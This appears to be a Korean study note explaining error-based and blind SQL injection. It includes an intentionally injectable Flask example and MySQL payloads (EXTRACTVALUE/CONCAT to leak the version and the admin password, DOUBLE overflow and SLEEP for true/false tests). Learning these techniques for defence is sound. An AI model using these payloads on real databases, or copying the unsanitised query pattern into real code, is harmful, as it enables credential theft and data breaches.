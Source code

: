 # Error & Time based SQL Injection

* 쿼리 결과를 애플리케이션의 기능에서 출력하지 않는 경우에 사용할 수 있는 SQL Injection 공격 형태
    - **공격 성공 여부를 어떻게 판단하느냐**에 따라 명칭이 구분됨

<br/>

## Error based SQL Injection
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법
* 애플리케이션에서 발생하는 에러를 이용해 공격하려고 한다면 **런타임 에러**(Runtime Error, *쿼리가 실행되고 나서 발생하는 에러*)가 필요함
    - 문법 에러(Syntax Error)와 같이 DBMS에서 쿼리가 실행되기 전에 발생하는 에러는 불가능함
* 공격자는 오류(에러) 메시지를 통해 공격에 필요한 다양한 정보를 수집하고 원하는 데이터를 획득할 수 있음
    - 에러 메시지와 같이 쿼리 실행 결과를 직접 노출하지는 않지만, **중요한 정보를 노출하는 방법들이 존재함**

<br/>

### Error based SQL Injection 예시
```python
from flask import Flask, request # Flask 프레임워크 사용
import pymysql

app = Flask(__name__)

def getConnection():
	return pymysql.connect(host='localhost', user='dream', password='hack', db='dreamhack', charset='utf8')

@app.route('/', methods=['GET'])
def index():
	username = request.args.get('username') # 이용자가 전달한 username 인자값을 가져옴
	sql = "SELECT username FROM users WHERE username='%s'" %username # 이용자의 입력값 username이 별다른 검사 없이 SQL 쿼리에 포함 → SQL Injection 취약점이 발생함

	conn = getConnetion()
	curs = conn.cursor(pymysql.cursors.DictCursor)
	curs.execute(sql)
	rows = curs.fetchall()
	conn.close()

    # SQL 실행 결과를 출력하는 코드가 존재하지 않고 쿼리 실행 결과만을 판단함
	if (rows):
		return "True"
	else:
		return "False"

app.run(host='0.0.0.0', port=8000, debug=True) # 디버그 모드 활성화(debug=True)
```
* Error based SQL Injection 공격 방법
    - Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생했을 때 발생 원인을 출력함
        + username에 ```admin 1'``` 쿼리를 삽입했을 경우
            ```sql
            # 생성되는 쿼리 → 실행 결과 문법 에러(Syntax Error) 발생
            SELECT username FROM users WHERE username='admin 1''
            ```
	    	![extractvalue_error](https://github.com/augustf86/Today_I_Learn/assets/122844932/1456e630-17c8-4ef3-8210-9243933f7493)

* Error based SQL Injection 공격 코드
    - ```EXTRACTVALUE``` 함수: 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출하는 함수
        + 두 번째 인자로 올바른 XPATH 식을 전달한 경우 쿼리가 정상적으로 실행됨
            ```sql
            SELECT EXTRACTVALUE('<a>test</a><b>abcd</b>', '/a'); # 결과: test
            ```
        + 두 번째 인자로 올바르지 않은 XPATH 식을 전달한 경우 에러 메시지에 삽입된 식의 결과가 출력됨
            ```sql
            SELECT EXTRACTVALUE(1, ":abcd");
            # 결과: ERROR 1105 (HY000): XPATH syntax error: ':abcd'
            ```
            - 올바르지 않은 XPATH 식에 중요한 정보를 추출할 수 있는 식을 입력한다면 공격자는 중요 정보를 획득할 수 있음
    - MySQL 환경에서 Error based SQL Injection으로 공격할 때 많이 사용하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, version()));
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
        ```
        + XPATH식에 삽입된 ```version``` 함수가 실행되면서 에러 메시지에 운영 체제에 대한 정보(```'0ubuntu0.16.04.1'```)가 포함되어 있음 → 공격자는 이 정보를 이용해 1-day 또는 0-day 공격을 통해 서버를 장악할 수 있음
        + ```CONCAT``` 함수: 둘 이상의 문자열을 입력한 순서대로 합쳐서 반환해주는 함수
            - 사용 형식: ```CONCAT(문자열1, 문자열2[, 문자열3, ...])```
    - ```EXTRACTVALUE``` 함수를 응용하여 데이터베이스의 정보를 추출하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT password FROM users WHERE username='admin')))
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':This_is_admin_PASSW@rd'
        ```
        + XPATH식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 users 테이블의 admin 사용자의 비밀번호가 포함되어 있음 → 공격자는 서브 쿼리를 사용해 임의 테이블의 데이터를 획득할 수 있음

<br/><br/>

## Error based Blind SQL Injection
Blind SQL Injection과 Error based SQL Injection을 동시에 활용하는 공격 기법
* Error based SQL Injection과 Error based Blind SQL Injection의 차이
    | Error based SQLI | Error based Blind SQLI |
    |---|---|
    | 에러 메시지를 통해 출력된 데이터로 정보를 수집해 출력값에 영향을 받음 | 에러 발생 여부만을 필요로 하기 때문에 용이하게 사용할 수 있음 |
* 서버가 반환하는 HTTP 상태 코드 또는 애플리케이션 응답 차이 등을 통해 에러 발생 여부를 확인하고 참/거짓 여부를 판단할 수 있음
    - 예시: MySQL의 DOUBLE 자료형의 최댓값을 초과해 에러를 발생시키는 경우
        ```sql
        SELECT IF(1=1, 9e307*2, 0); # 1=1이 참이므로 9e307*2를 반환 (결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)')

        SELECT IF(1=0, 9e307*2, 0); # 1=0이 거짓이므로 0을 반환
        ```

<br/>

### Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 방법
* AND 연산자를 이용해 공격 → 처음의 식의 결과(참/거짓)에 따라 뒤의 식의 결과가 달라진다는 점을 이용함
    ```sql
    # 처음 식이 거짓을 반환하기 때문에 SLEEP 함수가 실행되지 않음
    SELECT 0 AND SLEEP(1); # 결과: 1 row in set (0.00 sec)

    # 처음 식이 참을 반환하기 때문에 SLEEP 함수가 실행됨
    SELECT 1 AND SLEEP(10); # 결과: 1 row in set (10.04 sec)
    ```
* 예시: OR 연산자를 이용해 공격 → 처음 식이 참이라면 뒤의 식의 결과가 실행에 영향을 주지 않는다는 점을 이용함
    ```sql
    # 처음 식이 참이므로 뒤의 식이 DOUBLE 자료형의 최댓값을 초과함에도 불구하고 에러 메시지 대신에 상적인 결과를 출력함
    SELECT 1=1 OR 9e307*2; # 결과: 1

    # 처음 식이 거짓이고, 뒤의 식이 DOUBLE 자료형의 최댓값을 초과하므로 에러 메시지를 출력함
    SELECT 1=0 OR 9e307*2; # 결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
    ```

<br/><br/>
